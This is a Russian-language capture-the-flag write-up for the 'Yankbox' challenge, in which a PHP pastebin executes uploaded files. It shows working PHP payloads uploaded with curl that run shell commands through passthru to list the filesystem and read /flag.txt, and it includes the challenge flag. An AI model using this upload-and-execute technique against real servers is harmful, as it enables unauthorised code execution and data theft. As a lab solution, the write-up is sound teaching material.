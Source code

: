 # Yankbox: Write-up

Нас встречает минималистичная страница, которая рассказывает, как пользоваться Yankbox-ом.

```shell
$ curl -i https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3
HTTP/2 200 
server: nginx
date: Sat, 08 Mar 2025 17:00:50 GMT
content-type: text/html; charset=UTF-8
vary: Accept-Encoding
x-powered-by: PHP/8.4.1

<!DOCTYPE html>
<html lang="en">
<head>
    <title>Pastebin</title>
    <!-- Не релевантно для решения -->
</head>
<body>

<h1>Pastebin</h1>
curl -F "file=@/path/to/your/file.jpg" https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/

</body>
</html>
```

А, так это старый добрый PHP! Попробуем положить что-нибудь:

```shell
$ curl -F file=@/etc/os-release https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3
https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/files/Zu1Z3F0yA8
$ curl https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/files/Zu1Z3F0yA8
NAME="Arch Linux"
PRETTY_NAME="Arch Linux"
ID=arch
BUILD_ID=rolling
ANSI_COLOR="38;2;23;147;209"
HOME_URL="https://archlinux.org/"
DOCUMENTATION_URL="https://wiki.archlinux.org/"
SUPPORT_URL="https://bbs.archlinux.org/"
BUG_REPORT_URL="https://gitlab.archlinux.org/groups/archlinux/-/issues"
PRIVACY_POLICY_URL="https://terms.archlinux.org/docs/privacy-policy/"
LOGO=archlinux-logo
```

Хорошо. Попробуем проверить, исполняет ли оно подсунутые ему файлы. Начнём с тривиального `phpinfo`:

```shell
$ cat phpinfo.php
<?php phpinfo();
$ curl -F file=@phpinfo.php https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3
https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/files/iHz5qy05YN.php
```

Открываем ссылку в браузере и видим, что защиты от исполнения никакой нет. Отлично.

Давайте посмотрим, что может предложить нам файловая система:

```shell
$ cat stage1.php
<?php
passthru("find / -xdev -exec stat -c'u=%u\tg=%g\t%a/%A\t%s\t%N' {} \+ | sort -k5");
$ curl $(curl -F "file=@stage1.php" https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/) -o filesystem
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   376    0    72  100   304     99    418 --:--:-- --:--:-- --:--:--   517
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 72732    0 72732    0     0  37915      0 --:--:--  0:00:01 --:--:-- 37900
$ grep flag filesystem
u=65534 g=65534 644/-rw-r--r--  43  /flag.txt
```

Есть некий `/flag.txt`, который может читать кто угодно. Воспользуемся этим:

```shell
$ cat stage2.php
<?php
echo file_get_contents("/flag.txt");
$ curl $(curl -F "file=@stage2.php" https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   329    0    72  100   257    295   1053 --:--:-- --:--:-- --:--:--  1353
ugra_thats_why_we_dont_use_php_a9w5eih7kjq2
```

Флаг: **ugra_thats_why_we_dont_use_php_a9w5eih7kjq2**

## Интересные факты

На нормальную версию этого pastebin-а можно посмотреть [тут](https://depot.4d2.org).

Команда из stage 1 эквивалентна `find / -xdev -ls` для coreutils, но не для busybox.

## Постмортем

У некоторых команд заканчивалось место для загрузки файлов, и сервис втихую переставал работать.
